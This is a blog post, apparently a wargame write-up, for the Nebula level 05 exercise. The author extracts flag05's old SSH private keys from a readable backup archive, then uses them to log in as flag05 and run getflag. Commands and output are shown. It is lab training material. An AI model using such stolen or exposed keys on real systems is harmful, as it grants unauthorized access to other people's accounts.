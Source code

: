 ```yaml
---
title: "Exploit Exercises - Nebula 05"
date: "2011-12-06T05:24:00-05:00"
comments: true
highlight: "true"
categories:
 - Nebula
 - wargames
 - linux
 - exploit-exercises
 - hacking
---
```


So going forward to the [Nebula 05](http://exploit-exercises.com/nebula/level05), we now have to find some sort of weak permissions somewhere to escalate from level05 to flag05.  In searching through the flag05 home directory, I saw a ".backup" folder containing a copy of the user's old ssh keys. I extracted the archive to the level05 user's directory, so they could be used.

<!-- more -->

```
level05@nebula:/home/flag05$ cd .backup
level05@nebula:/home/flag05/.backup$ tar -xzvf backup-19072011.tgz -C /home/level05
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
```

Once that was setup, I simply tried to SSH back to the local machine but using the flag05 user, since I had their authentication keys.  Luckily it was secured *only* with keys, and not a password as well.  This let me right in.

```
level05@nebula:/home/flag05/.backup$ ssh flag05@localhost
The authenticity of host 'localhost (127.0.0.1)' can't be established.
ECDSA key fingerprint is ea:8d:09:1d:f1:69:e6:1e:55:c7:ec:e9:76:a1:37:f0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'localhost' (ECDSA) to the list of known hosts.

      _   __     __          __
     / | / /__  / /_  __  __/ /___ _
    /  |/ / _ \/ __ \/ / / / / __ `/
   / /|  /  __/ /_/ / /_/ / / /_/ /
  /_/ |_/\___/_.___/\__,_/_/\__,_/

    exploit-exercises.com/nebula


For level descriptions, please see the above URL.

To log in, use the username of "levelXX" and password "levelXX", where
XX is the level number.

Currently there are 20 levels (00 - 19).


Welcome to Ubuntu 11.10 (GNU/Linux 3.0.0-12-generic i686)

* Documentation:  https://help.ubuntu.com/
Last login: Fri Dec  2 04:36:54 2011 from localhost
flag05@nebula:~$ getflag
You have successfully executed getflag on a target account
flag05@nebula:~$
```

After getting in, I ran the "getflag" command, in case it does store the results somewhere.
